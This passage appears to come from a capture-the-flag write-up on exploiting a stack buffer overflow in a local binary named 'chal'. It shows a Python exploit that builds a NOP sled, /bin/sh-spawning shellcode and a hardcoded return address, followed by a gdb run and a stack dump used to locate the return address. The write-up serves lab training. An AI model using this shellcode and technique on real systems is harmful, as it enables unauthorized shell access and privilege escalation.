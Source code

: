 Now to finish our exploit we need to combine the parts in to the payload variable and print it out:

```text
buffsize = 362
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
nopsled = "\x90"*(buffsize-len(shellcode))
eip = "\xc0\xf4\xff\xbf"
payload = nopsled + shellcode + eip
print payload
```

Now run the exploit in gdb:

```text
thrasivoulos@Sneaky:~$ gdb /usr/local/bin/chal

GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/local/bin/chal...(no debugging symbols found)...done.
(gdb) r $(python exploit.py)
Starting program: /usr/local/bin/chal $(python exploit.py)

Program received signal SIGSEGV, Segmentation fault.
0xc080cd40 in ?? ()
```

Now we have the stack set up with our actual payload, so we need to find the correct memory address:

```text
(gdb) x/100x $esp
0xbffff560:     0x00bffff4      0xbffff5f4      0xbffff600      0xb7feccca
0xbffff570:     0x00000002      0xbffff5f4      0xbffff594      0x0804a014
0xbffff580:     0x0804821c      0xb7fce000      0x00000000      0x00000000
0xbffff590:     0x00000000      0xd1acbedc      0xe9331acc      0x00000000
0xbffff5a0:     0x00000000      0x00000000      0x00000002      0x08048320
0xbffff5b0:     0x00000000      0xb7ff24c0      0xb7e3ba09      0xb7fff000
0xbffff5c0:     0x00000002      0x08048320      0x00000000      0x08048341
0xbffff5d0:     0x0804841d      0x00000002      0xbffff5f4      0x08048450
0xbffff5e0:     0x080484c0      0xb7fed160      0xbffff5ec      0x0000001c
0xbffff5f0:     0x00000002      0xbffff71d      0xbffff731      0x00000000
0xbffff600:     0xbffff8a3      0xbffff8b4      0xbffff8c4      0xbffff8d8
0xbffff610:     0xbffff8fe      0xbffff911      0xbffff923      0xbffffe44
0xbffff620:     0xbffffe50      0xbffffeae      0xbffffeca      0xbffffed9
0xbffff630:     0xbffffef0      0xbfffff01      0xbfffff0a      0xbfffff22
0xbffff640:     0xbfffff2a      0xbfffff3f      0xbfffff87      0xbfffffa7
0xbffff650:     0xbfffffc6      0x00000000      0x00000020      0xb7fdccf0
0xbffff660:     0x00000021      0xb7fdc000      0x00000010      0x078bfbff
0xbffff670:     0x00000006      0x00001000      0x00000011      0x00000064
0xbffff680:     0x00000003      0x08048034      0x00000004      0x00000020
0xbffff690:     0x00000005      0x00000009      0x00000007      0xb7fde000
0xbffff6a0:     0x00000008      0x00000000      0x00000009      0x08048320
0xbffff6b0:     0x0000000b      0x000003e8      0x0000000c      0x000003e8
0xbffff6c0:     0x0000000d      0x000003e8      0x0000000e      0x000003e8
```